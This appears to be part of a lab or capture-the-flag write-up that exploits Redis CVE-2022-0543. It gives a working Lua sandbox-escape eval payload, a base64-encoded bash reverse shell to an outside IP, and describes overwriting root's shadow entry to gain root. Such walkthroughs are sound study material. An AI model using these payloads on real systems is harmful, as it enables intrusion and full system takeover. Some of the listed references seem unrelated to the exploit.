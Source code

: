 https://github.com/vulhub/vulhub/blob/master/redis/CVE-2022-0543/README.md

```lua
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```

<img src="https://i.imgur.com/chtBUoq.png"/>

To get a root shell we can base64 encode our bash reverse shell, pipe it to base64 decode and then pipe it to bash so that it can be executed 

```bash

echo "/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.114/2222 0>&1'" | base64 -w0

eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("echo L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjExNC8yMjIyIDA+JjEnCg== | base64 -d | bash ", "r"); local res = f:read("*a"); f:close(); return res' 0

```

<img src="https://i.imgur.com/fLkfu77.png"/>

The redis process will also get killed and trying to make bash a SUID it won't allow you to do that

<img src="https://i.imgur.com/jQu82SJ.png"/>

I also tried writing the ssh public in root's authorized_keys file as well but that didn't worked so the last resort was to edit entry of root user in `shadow` file by first saving it on your local machine, editing and then transfer it back by hosting it through python server

<img src="https://i.imgur.com/UnvNbU7.png"/>

<img src="https://i.imgur.com/zdPTCmd.png"/>

## References

- http://www.securityidiots.com/Web-Pentest/SQL-Injection/basic-injection-single-line-or-death.html
- https://asheeshandotra1.blogspot.com/2018/05/sql-injection-attack.html
- https://github.com/ipython/ipython/security/advisories/GHSA-pq7m-3gw7-gq5x
- https://github.com/rizinorg/cutter
- https://github.com/vulhub/vulhub/blob/master/redis/CVE-2022-0543/README.md
